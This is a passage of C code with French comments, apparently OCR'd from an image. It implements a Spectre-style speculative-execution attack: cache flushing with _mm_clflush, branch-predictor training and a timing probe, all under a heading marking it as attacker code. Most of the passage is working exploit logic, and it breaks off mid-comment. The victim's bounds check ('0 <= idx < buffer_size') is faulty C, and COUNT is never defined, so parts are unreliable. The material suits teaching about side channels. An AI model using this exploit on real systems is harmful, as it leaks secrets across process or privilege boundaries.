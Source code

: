 ```c

int x;
void my_protected_function(int idx) {
    /*
     * La fonction vérifie que l'index fourni en paramètre est bien dans les limites du tableau
     * de ce programme. Le tableau "buffer" est initialisé/contrôlé par ce programme, donc
     * les valeurs sont maitrisées de telle sorte à ce que 0 <= buffer[idx] <= 255
     */
    if (0 <= idx < buffer_size) {
        x = x ^ paged_buffer[buffer[idx] * PAGE_SIZE];
    }
}

/**
 ** CODE DE L'ATTAQUANT
 **/
void access_value(uint32_t x) {
    /* Wrapper pour éviter les optimisations */
    (void)x;
}

void delay() {
    /* Ne fait rien à part faire passer le temps */
    uint32_t x = 0x1337;
    for(volatile int i = 0; i < 1000; i++) {
        x *= i;
        x ^= 444;
        x *= 555;
    }
}

#define TRAIN 30
#define FREQ 5
uint32_t get_index_access_time(int idx, int value) {
    uint32_t cycle_difference = 0;
    uint32_t access_time = 0;
    uint32_t in_ram = 0;
    uint32_t in_cache = 0;
    uint32_t diff = 0;

    /* Récupère l'index de la page à laquelle on accède */
    value *= PAGE_SIZE;

    /* Boucle pour faire une moyenne sur COUNT accès */
    for(int i = 0; i < COUNT; i++) {

        /* Vidage du cache */
        for(int j = 0; j < 256; j++) {
            _mm_clflush((void*)(paged_buffer + j * PAGE_SIZE));
        }
        
        /* Index trx qui est dans les limites du tableau */
        uint32_t trx = idx % buffer_size;

        /* Entrainement de la branche */
        for(int i = 0; i < TRAIN; i++) {
            /* On enlève la variable de taille du tableau du cache pour que la comparaison soit lente */
            _mm_clflush((void*)&buffer_size);
            delay();

            /*
             * Trick emprunté de plusieurs PoC en ligne.
```